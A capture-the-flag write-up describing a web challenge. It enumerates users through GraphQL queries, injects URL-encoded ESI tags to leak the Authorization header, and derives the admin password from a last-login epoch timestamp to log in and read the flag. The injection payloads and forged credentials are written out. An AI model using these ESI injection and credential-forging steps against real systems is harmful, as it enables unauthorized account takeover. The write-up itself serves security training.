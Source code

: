 Query to enum users:
``query={user(userId:1){user{id,admin,username,last_login}}}``
user1-> ``{"data":{"user":{"user":{"admin":true,"id":"1","last_login":"13-10-2022 10:25:11 - CEST","username":"admin"}}}}``

``query={user(userId:2){user{id,admin,username,last_login}}}``
user2->``{"data":{"user":{"user":{"admin":false,"id":"2","last_login":"11-10-2022 11:30:31 - CEST","username":"esi-user"}}}}``

So far there are only 2 users admin and esi-user, we are now esi-user and the flag its probably on the admin user so let´s go back to /test and try to log as admin there. The endpoint is telling us that is a test endpoint to check headers

![Pasted image 20221020112023](https://user-images.githubusercontent.com/32242199/197006366-07e377ec-bf93-4cde-8508-dc8dd10fc6f5.png)

We start by injecting after the first include another esi like  ``<esi header Authorization>``
Getting back:
``<esi:error hidden="">Attribute 'name' is mandatory for the 'esi:header' directive.</esi:error>``
So lets test again with ``<esi%3aheader+name+Authorization"+/>``
We got -> ``>Header not in whitelist. Headers allowed: ['Authorization', 'authorization'].<``

``<esi%3ainclude+src%3d"http%3a//172.20.0.4:5000/test"+/><<esi%3aheader+name%3d"Authorization">``
This return the authorization header
![Pasted image 20221020113505](https://user-images.githubusercontent.com/32242199/197006931-b98076ba-7d1d-4c27-bf06-b441d4a5f730.png)
That's the base64 of  esi-user:1665480631
Meaning the password is 1665480631 knowing that on the graphql the only attributes for the user are id, username,admin,last_login and this number can be epox time lets check it
![Pasted image 20221020113727](https://user-images.githubusercontent.com/32242199/197007149-7ecf9772-d295-48b9-82ce-5a1c388b3217.png)
This is the last_login we had for the esi-user on graphql so lets convert the admin last_Login from the db to epox format -> 
![Pasted image 20221020113851](https://user-images.githubusercontent.com/32242199/197007319-36a90006-9966-49ea-b68e-5defb59e1ae6.png)

so lets enconde admin:1665649511 to b64 -> YWRtaW4=:MTY2NTY0OTUxMQ==

After trying to inject the Athorization header from the ESI without success setting this header on the initial request works and we were log as admin
![Pasted image 20221020114249](https://user-images.githubusercontent.com/32242199/197007481-2215f842-4fa5-41f8-98ca-545cbccfb5a0.png)

Now we can try again the flag query : ``query={flag{flag}}``
And voilá!
![Pasted image 20221020114408](https://user-images.githubusercontent.com/32242199/197007522-806415ef-3bbd-494a-88c5-3059ea2f9d2f.png)
